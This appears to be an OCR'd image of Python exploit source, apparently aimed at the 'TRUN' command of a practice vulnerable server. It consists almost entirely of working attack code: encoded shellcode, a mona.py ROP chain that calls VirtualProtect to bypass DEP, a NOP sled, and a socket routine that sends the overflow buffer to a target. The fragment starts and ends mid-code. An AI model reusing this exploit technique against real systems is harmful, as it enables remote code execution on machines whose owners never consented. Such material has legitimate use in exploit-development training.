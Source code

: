 ```python
shellcode += b"\x2b\xba\x9c\x83\x4c\x93\x5a\xd7\x1c\x8b\x4b\x58\xf7"
shellcode += b"\x4b\x73\x8d\x58\x1b\xdb\x7e\x19\xcb\x9b\x2e\xf1\x01"
shellcode += b"\x14\x10\xe1\x2a\xfe\x39\x88\xd1\x69\x4c\x47\xd3\x79"
shellcode += b"\x38\x55\xe3\x68\xe4\xd0\x05\xe0\x04\xb5\x9e\x9d\xbd"
shellcode += b"\x9c\x54\x3f\x41\x0b\x11\x7f\xc9\xb8\xe6\xce\x3a\xb4"
shellcode += b"\xf4\xa7\xca\x83\xa6\x6e\xd4\x39\xce\xed\x47\xa6\x0e"
shellcode += b"\x7b\x74\x71\x59\x2c\x4a\x88\x0f\xc0\xf5\x22\x2d\x19"
shellcode += b"\x63\x0c\xf5\xc6\x50\x93\xf4\x8b\xed\xb7\xe6\x55\xed"
shellcode += b"\xf3\x52\x0a\xb8\xad\x0c\xec\x12\x1c\xe6\xa6\xc9\xf6"
shellcode += b"\x6e\x3e\x22\xc9\xe8\x3f\x6f\xbf\x14\xf1\xc6\x86\x2b"
shellcode += b"\x3e\x8f\x0e\x54\x22\x2f\xf0\x8f\xe6\x5f\xbb\x8d\x4f"
shellcode += b"\xc8\x62\x44\xd2\x95\x94\xb3\x11\xa0\x16\x31\xea\x57"
shellcode += b"\x06\x30\xef\x1c\x80\xa9\x9d\x0d\x65\xcd\x32\x2d\xac"

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

def main():

    rop_chain = create_rop_chain()
    nop_sled = "\x90"*8

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += nop_sled
    buffer += shellcode
    buffer += "C"*(3500-2003-len(rop_chain)-len(nop_sled)-len(shellcode))

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

```